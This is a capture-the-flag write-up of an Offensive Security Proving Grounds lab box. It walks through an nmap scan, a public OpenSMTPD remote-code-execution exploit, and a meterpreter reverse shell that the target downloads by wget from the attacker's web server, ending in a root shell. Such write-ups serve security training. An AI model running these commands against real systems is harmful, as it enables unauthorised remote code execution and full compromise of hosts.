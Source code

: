 ```yaml
---
layout: post
author: H4
---
```


This is an Offensive Security proving grounds practice box.

# enumeration

Starting with a `nmap` scan to identify the attack surface of the target.

## nmap
```bash
$ nmap -Pn -p22,25,80,445 -sV 192.168.152.71
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-30 16:11 EST
Nmap scan report for 192.168.152.71
Host is up (0.10s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp        OpenSMTPD
80/tcp  open  http        nginx 1.14.0 (Ubuntu)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.34 seconds
```

---

# exploitation

`OpenSMTPD` looks like it is worth an investigation.

## search for an exploit
```bash
$ searchsploit opensmtpd                                                           
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                            |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
OpenSMTPD - MAIL FROM Remote Code Execution (Metasploit)                                                                                                                                                  | linux/remote/48038.rb
OpenSMTPD - OOB Read Local Privilege Escalation (Metasploit)                                                                                                                                              | linux/local/48185.rb
OpenSMTPD 6.4.0 < 6.6.1 - Local Privilege Escalation + Remote Code Execution                                                                                                                              | openbsd/remote/48051.pl
OpenSMTPD 6.6.1 - Remote Code Execution                                                                                                                                                                   | linux/remote/47984.py
OpenSMTPD 6.6.3 - Arbitrary File Read                                                                                                                                                                     | linux/remote/48139.c
OpenSMTPD < 6.6.3p1 - Local Privilege Escalation + Remote Code Execution                                                                                                                                  | openbsd/remote/48140.c
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

> `OpenSMTPD 6.6.1 - Remote Code Execution`: `linux/remote/47984.py` looks promising.
{: .prompt-info }

```bash
$ python3 47984.py 192.168.228.71 25 'whoami'                                 
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```
> It seems to be a blind command injection as we do not get any text response to our command.
{: .prompt-info }

---

# post exploitation

We start by getting a reverse shell.  
When trying to get the reverse shell it was not possible to trigger a simple `bash` shell, so uploading a `meterpreter` executable and executing it made the trick here. 

## download `meterpreter` to target
### generate a `meterpreter` binary
```bash
$ msfvenom -p linux/x64/meterpreter_reverse_tcp LHOST=192.168.49.228 LPORT=445 -f elf > shell.elf 
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037680 bytes
Final size of elf file: 1037680 bytes
```

### start web server on attacker machine
```bash
$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

### download `meterpreter` to target
```bash
$ python3 47984.py 192.168.228.71 25 'wget 192.168.49.228/shell.elf -O /tmp/shell'
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

```bash
$ python3 -m http.server 80 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.228.71 - - [31/Jan/2022 00:33:11] "GET /shell.elf HTTP/1.1" 200 -
```

> The download seemed to work!
{: .prompt-info }

## set permissions and execute `meterpreter`
### set permissions
```bash
$ python3 47984.py 192.168.228.71 25 'chmod +x /tmp/shell'                       
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

### start metasploit listener
```bash
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.49.228   yes       The listen address (an interface may be specified)
   LPORT  445              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.228:445
```

### execute payload
```bash
$ python3 47984.py 192.168.228.71 25 '/tmp/shell'                                 
[*] OpenSMTPD detected
[*] Connected, sending payload
[*] Payload sent
[*] Done
```

### catch the connection from the target
```bash
$ msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.49.228:445 
[*] Meterpreter session 1 opened (192.168.49.228:445 -> 192.168.228.71:49062 ) at 2022-01-31 00:33:24 -0500

meterpreter > getuid
Server username: root
```

> And we got a root shell :-)
{: .prompt-info }

---

# get the flag
```bash
meterpreter > shell
Process 1665 created.
Channel 1 created.
whoami
root
ls
proof.txt
cat proof.txt
e******************************a
```

Pwned! <@:-)
